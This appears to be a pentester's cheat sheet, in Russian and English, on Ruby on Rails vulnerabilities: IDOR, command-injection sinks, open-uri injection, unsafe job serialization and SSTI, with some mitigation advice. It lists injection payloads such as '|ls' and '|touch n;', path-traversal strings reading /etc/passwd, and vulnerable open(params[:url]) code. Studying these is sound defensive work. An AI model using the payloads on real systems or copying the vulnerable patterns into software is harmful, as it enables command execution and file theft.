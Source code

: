 # Common

## IDOR in RoR

Добавление .json к пути, если у нас Ruby

```
/user_data/2341      --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## Command Injection

```ruby
eval("ruby code here")
system("os command here")
`ls -al /` # (backticks contain os command)
exec("os command here")
open("\| os command here")
```

## Code Execution

```ruby
class_eval <<-RUBY, __FILE__, __LINE__ + 1
  def #{item}?
    code == '#{item.upcase}'
  end
RUBY
```

## open-uri

Если используется в коде этот пакет, то есть возможность исполнить код на стороне сервера (так как используется внутри [Kernel.open](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-open))

Пример кода уязвимого

```ruby
require "open-uri"

open(params[:url]) { |f|
    f.each_line {|line| p line}
}
```

Payloads:

```ruby
url = "|ls"

# open(params[:url]) if param[:url] =~ /^https:// , то сработает так:
url = "|touch n;\nhttps://url.com"  # Почему? читай про broken Regexp (use \A\z) в Ruby: https://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html

# Если так: open(URI(params[:url])) -> Local File Read
url = "/etc/passwd"

# open(params[:url]) if URI(params[:url]).scheme == 'http'
url = "http:/../../../../../../../etc/passwd"
```

Mitigation: переходить на `openURI`.

## Unsafe Jobs

delayed jobs (e.g. ActiveJob, delayed\_job) whose classes accept sensitive data via a `perform` or `initialize` method. Jobs are serialized in plaintext, so any sensitive data they accept will be accessible in plaintext to everyone with database access. Instead, consider passing ActiveRecord instances that appropriately handle sensitive data (e.g. encrypted at rest and decrypted when the data is needed) or avoid passing in this data entirely.

```ruby
class RegistrationJob < ApplicationJob
  def perform(user:, password:, authorization_token:)
    # do something to the user with the password and authorization_token
  end
end
```

When a `RegistrationJob` gets queued, this job will get serialized, leaving both `password` and `authorization_token`accessible in plaintext. `Betterment/UnsafeJob` can be configured to flag parameters like these to discourage their use. Some ways to remediate this might be to stop passing in `password`, and to encrypt `authorization_token` and storing it alongside the user object. For example:

```ruby
class RegistrationJob < ApplicationJob
  def perform(user:)
    authorization_token = user.authorization_token.decrypt
    # do something with the authorization_token
  end
end
```

By default, this job will look at classes whose name ends with `Job` but this can be replaced with any regex.

## Macros & Regexp -> Dinamic Params

```ruby
%w(one two three)
%i(one two three)
%r{(\w+)-(\d+)}
"#{p}_name"
```

## Render / SSTI

```ruby
render <user_input>
ERB: <%= 7 * 7 %>
SLIM: #{ 7 * 7 }

Ищем raw, html_safe, safe_concat
```

SSTI: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Server%20Side%20Template%20Injection/README.md#ruby---basic-injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Server%20Side%20Template%20Injection/README.md#ruby---basic-injections)
